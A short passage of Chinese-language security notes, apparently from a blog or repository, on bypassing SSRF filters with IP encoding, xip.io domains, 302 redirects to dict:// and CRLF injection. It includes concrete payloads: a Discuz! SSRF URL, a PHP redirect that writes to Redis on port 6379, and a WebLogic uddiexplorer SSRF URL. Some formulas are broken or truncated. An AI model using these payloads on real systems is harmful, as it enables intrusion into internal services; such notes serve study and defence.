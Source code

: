 + 要求对象必须包含域名Domain，且符合`.tld`标准
    url=http://www.10.10.10.10.xip.io
+ 将10、127、172、192开头的私有IP列入黑名单
    十进制IP： \*256\*\*3 + \*256\*\*2 + \*256
    八进制IP：012.10.10.10 = 10.10.10.10

#### 协议限制绕过（Redirect̵CRLF header injection）

+ 只允许`startswith('http')`传入
  + 302 Redirect 跳转 (HTTP Scheme ——> DICT Scheme)
    Discuz! SSRF

    ```url
    /forum.php?mod=ajax&action=downremoteimg&message=[img]http://wuyun.org/302.php?helo.jpg[/img]
    ```

    302.php

    ```php
    <?php
    header("Location: dict://wuyun.org:6379/set:1:helo”); # set 1 helo \n
    ```

  + CRLF ( Ascii Code ) — header injection
    + WebLogic uddiexplorer SSRF

        ```url
        http://localhost:7001/uddiexplorer/SearchPublicRegistries.jsp?operator=http://wuyun.org/helo&rdoSearch=name&btnSubmit=Search
        ```

    + CRLF ->ASCII Code
        %0d -> 0x0d -> \r
        %0a -> 0x0a -> \n

#### 调用系统支持的协议和方法（Protocols & Wrappers）

![20210918175504](https://gitee.com/ye_xi_bai/blogimage/raw/master/blogimages20210918175504.png)
